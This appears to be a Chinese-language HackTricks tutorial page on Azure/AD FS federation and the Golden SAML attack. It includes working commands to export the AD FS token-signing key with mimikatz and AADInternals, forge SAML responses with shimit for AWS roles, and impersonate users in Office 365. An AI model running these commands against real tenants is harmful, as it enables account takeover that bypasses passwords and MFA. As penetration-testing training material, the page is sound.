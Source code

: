 # Az - Federation

{% hint style="success" %}
学习与实践 AWS 黑客技术：<img src="../../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks 培训 AWS 红队专家 (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
学习与实践 GCP 黑客技术：<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks 培训 GCP 红队专家 (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>支持 HackTricks</summary>

* 查看 [**订阅计划**](https://github.com/sponsors/carlospolop)!
* **加入** 💬 [**Discord 群组**](https://discord.gg/hRep4RUj7f) 或 [**Telegram 群组**](https://t.me/peass) 或 **关注** 我们的 **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **通过向** [**HackTricks**](https://github.com/carlospolop/hacktricks) 和 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub 仓库提交 PR 分享黑客技巧。

</details>
{% endhint %}

## 基本信息

[来自文档：](https://learn.microsoft.com/en-us/entra/identity/hybrid/connect/whatis-fed)**联邦**是建立了**信任**的一组**域**。信任的级别可能有所不同，但通常包括**身份验证**，几乎总是包括**授权**。一个典型的联邦可能包括一组已建立**信任**的**组织**，以便**共享访问**一组资源。

您可以将**本地**环境与 **Azure AD** 进行**联邦**，并使用此联邦进行身份验证和授权。此登录方法确保所有用户**身份验证在本地**进行。此方法允许管理员实施更严格的访问控制。与 **AD FS** 和 PingFederate 的联邦是可用的。

<figure><img src="../../../../.gitbook/assets/image (154).png" alt=""><figcaption></figcaption></figure>

基本上，在联邦中，所有**身份验证**都发生在**本地**环境中，用户在所有受信任的环境中体验单点登录（SSO）。因此，用户可以使用其**本地凭据**访问**云**应用程序。

**安全断言标记语言 (SAML)** 用于在提供者之间**交换**所有身份验证和授权**信息**。

在任何联邦设置中，有三个参与方：

* 用户或客户端
* 身份提供者 (IdP)
* 服务提供者 (SP)

（图片来自 https://www.cyberark.com/resources/threat-research-blog/golden-saml-newly-discovered-attack-technique-forges-authentication-to-cloud-apps）

<figure><img src="../../../../.gitbook/assets/image (121).png" alt=""><figcaption></figcaption></figure>

1. 最初，用户访问一个应用程序（服务提供者或 SP，例如 AWS 控制台或 vSphere Web 客户端）。根据具体实现，此步骤可能会被绕过，直接将客户端引导到 IdP（身份提供者）。
2. 随后，SP 确定适当的 IdP（例如，AD FS，Okta）进行用户身份验证。然后，它构建一个 SAML（安全断言标记语言）AuthnRequest，并将客户端重定向到所选的 IdP。
3. IdP 接管，进行用户身份验证。身份验证后，IdP 制定一个 SAMLResponse，并通过用户转发给 SP。
4. 最后，SP 评估 SAMLResponse。如果成功验证，表明与 IdP 之间存在信任关系，则用户被授予访问权限。这标志着登录过程的完成，允许用户使用该服务。

**如果您想了解更多关于 SAML 身份验证和常见攻击的信息，请访问：**

{% embed url="https://book.hacktricks.xyz/pentesting-web/saml-attacks" %}

## 侧向移动

* AD FS 是基于声明的身份模型。
* “..声明只是关于用户的简单语句（例如，姓名、身份、组），主要用于授权访问位于互联网上任何地方的基于声明的应用程序。”
* 用户的声明写入 SAML 令牌中，然后由 IdP 签名以提供机密性。
* 用户通过 ImmutableID 进行识别。它是全局唯一的，并存储在 Azure AD 中。
* ImmutableID 存储在本地作为 ms-DS-ConsistencyGuid，供用户使用，和/或可以从用户的 GUID 派生。
* 更多信息请参见 [https://learn.microsoft.com/en-us/windows-server/identity/ad-fs/technical-reference/the-role-of-claims](https://learn.microsoft.com/en-us/windows-server/identity/ad-fs/technical-reference/the-role-of-claims)

**黄金 SAML 攻击：**

* 在 ADFS 中，SAML 响应由令牌签名证书签名。
* 如果证书被泄露，则可以作为任何同步到 Azure AD 的用户进行身份验证！
* 就像我们的 PTA 滥用一样，用户的密码更改或 MFA 不会产生任何影响，因为我们伪造了身份验证响应。
* 可以从 AD FS 服务器提取证书，具有 DA 权限，然后可以从任何连接到互联网的机器上使用。
* 更多信息请参见 [https://www.cyberark.com/resources/threat-research-blog/golden-saml-newly-discovered-attack-technique-forges-authentication-to-cloud-apps](https://www.cyberark.com/resources/threat-research-blog/golden-saml-newly-discovered-attack-technique-forges-authentication-to-cloud-apps)

### 黄金 SAML

**身份提供者 (IdP)** 生成 **SAMLResponse** 以授权用户登录的过程至关重要。根据 IdP 的具体实现，**响应**可能会使用 **IdP 的私钥**进行**签名**或**加密**。此过程使 **服务提供者 (SP)** 能够确认 SAMLResponse 的真实性，确保它确实是由受信任的 IdP 发出的。

可以与 [黄金票证攻击](https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/golden-ticket) 进行类比，其中用于验证用户身份和权限的密钥（KRBTGT 用于黄金票证，令牌签名私钥用于黄金 SAML）可以被操纵以**伪造身份验证对象**（TGT 或 SAMLResponse）。这允许冒充任何用户，授予对 SP 的未授权访问。

黄金 SAML 提供某些优势：

* 它们可以**远程创建**，无需成为相关域或联邦的一部分。
* 即使启用**双因素身份验证 (2FA)**，它们仍然有效。
* 令牌签名**私钥不会自动更新**。
* **更改用户的密码不会使**已生成的 SAML 无效。

#### AWS + AD FS + 黄金 SAML

[活动目录联邦服务 (AD FS)](https://docs.microsoft.com/en-us/previous-versions/windows/server-2008/bb897402\(v=msdn.10\)) 是一项 Microsoft 服务，促进受信任商业伙伴之间的**身份信息安全交换**（联邦）。它本质上允许域服务与联邦内的其他服务提供者共享用户身份。

由于 AWS 信任被泄露的域（在联邦中），可以利用此漏洞来潜在地**获取 AWS 环境中的任何权限**。该攻击需要**用于签名 SAML 对象的私钥**，类似于在黄金票证攻击中需要 KRBTGT。访问 AD FS 用户帐户足以获取此私钥。

执行黄金 SAML 攻击的要求包括：

* **令牌签名私钥**
* **IdP 公共证书**
* **IdP 名称**
* **角色名称（要假设的角色）**
* 域\用户名
* AWS 中的角色会话名称
* 亚马逊账户 ID

_只有加粗的项目是强制性的。其他项目可以根据需要填写。_

要获取**私钥**，需要访问**AD FS 用户帐户**。从那里，可以使用 [mimikatz](https://github.com/gentilkiwi/mimikatz) 等工具从个人存储中**导出私钥**。要收集其他所需信息，可以使用 Microsoft.Adfs.Powershell snapin，如下所示，确保您以 ADFS 用户身份登录：
```powershell
# From an "AD FS" session
# After having exported the key with mimikatz

# ADFS Public Certificate
[System.Convert]::ToBase64String($cer.rawdata)

# IdP Name
(Get-ADFSProperties).Identifier.AbsoluteUri

# Role Name
(Get-ADFSRelyingPartyTrust).IssuanceTransformRule
```
使用所有信息，可以忘记一个有效的 SAMLResponse，作为您想要冒充的用户，使用 [**shimit**](https://github.com/cyberark/shimit)**:**

{% code overflow="wrap" %}
```bash
# Apply session for AWS cli
python .\shimit.py -idp http://adfs.lab.local/adfs/services/trust -pk key_file -c cert_file -u domain\admin -n admin@domain.com -r ADFS-admin -r ADFS-monitor -id 123456789012
# idp - Identity Provider URL e.g. http://server.domain.com/adfs/services/trust
# pk - Private key file full path (pem format)
# c - Certificate file full path (pem format)
# u - User and domain name e.g. domain\username (use \ or quotes in *nix)
# n - Session name in AWS
# r - Desired roles in AWS. Supports Multiple roles, the first one specified will be assumed.
# id - AWS account id e.g. 123456789012

# Save SAMLResponse to file
python .\shimit.py -idp http://adfs.lab.local/adfs/services/trust -pk key_file -c cert_file -u domain\admin -n admin@domain.com -r ADFS-admin -r ADFS-monitor -id 123456789012 -o saml_response.xml
```
{% endcode %}

<figure><img src="../../../../.gitbook/assets/image (128).png" alt=""><figcaption></figcaption></figure>

### 本地 -> 云
```powershell
# With a domain user you can get the ImmutableID of the target user
[System.Convert]::ToBase64String((Get-ADUser -Identity <username> | select -ExpandProperty ObjectGUID).tobytearray())

# On AD FS server execute as administrator
Get-AdfsProperties | select identifier

# When setting up the AD FS using Azure AD Connect, there is a difference between IssueURI on ADFS server and Azure AD.
# You need to use the one from AzureAD.
# Therefore, check the IssuerURI from Azure AD too (Use MSOL module and need GA privs)
Get-MsolDomainFederationSettings -DomainName deffin.com | select IssuerUri

# Extract the ADFS token signing certificate from the ADFS server using AADInternals
Export-AADIntADFSSigningCertificate

# Impersonate a user to to access cloud apps
Open-AADIntOffice365Portal -ImmutableID v1pOC7Pz8kaT6JWtThJKRQ== -Issuer http://deffin.com/adfs/services/trust -PfxFileName C:\users\adfsadmin\Documents\ADFSSigningCertificate.pfx -Verbose
```
也可以为仅云用户创建 ImmutableID 并冒充他们。
```powershell
# Create a realistic ImmutableID and set it for a cloud only user
[System.Convert]::ToBase64String((New-Guid).tobytearray())
Set-AADIntAzureADObject -CloudAnchor "User_19e466c5-d938-1293-5967-c39488bca87e" -SourceAnchor "aodilmsic30fugCUgHxsnK=="

# Extract the ADFS token signing certificate from the ADFS server using AADInternals
Export-AADIntADFSSigningCertificate

# Impersonate the user
Open-AADIntOffice365Portal -ImmutableID "aodilmsic30fugCUgHxsnK==" -Issuer http://deffin.com/adfs/services/trust -PfxFileName C:\users\adfsadmin\Desktop\ADFSSigningCertificate.pfx -Verbose
```
## 参考文献

* [https://learn.microsoft.com/en-us/azure/active-directory/hybrid/whatis-fed](https://learn.microsoft.com/en-us/azure/active-directory/hybrid/whatis-fed)
* [https://www.cyberark.com/resources/threat-research-blog/golden-saml-newly-discovered-attack-technique-forges-authentication-to-cloud-apps](https://www.cyberark.com/resources/threat-research-blog/golden-saml-newly-discovered-attack-technique-forges-authentication-to-cloud-apps)

{% hint style="success" %}
学习与实践 AWS 黑客技术：<img src="../../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks 培训 AWS 红队专家 (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
学习与实践 GCP 黑客技术：<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks 培训 GCP 红队专家 (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>支持 HackTricks</summary>

* 查看 [**订阅计划**](https://github.com/sponsors/carlospolop)!
* **加入** 💬 [**Discord 群组**](https://discord.gg/hRep4RUj7f) 或 [**Telegram 群组**](https://t.me/peass) 或 **在** **Twitter** 🐦 **上关注我们** [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **通过向** [**HackTricks**](https://github.com/carlospolop/hacktricks) 和 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub 仓库提交 PR 来分享黑客技巧。

</details>
{% endhint %}
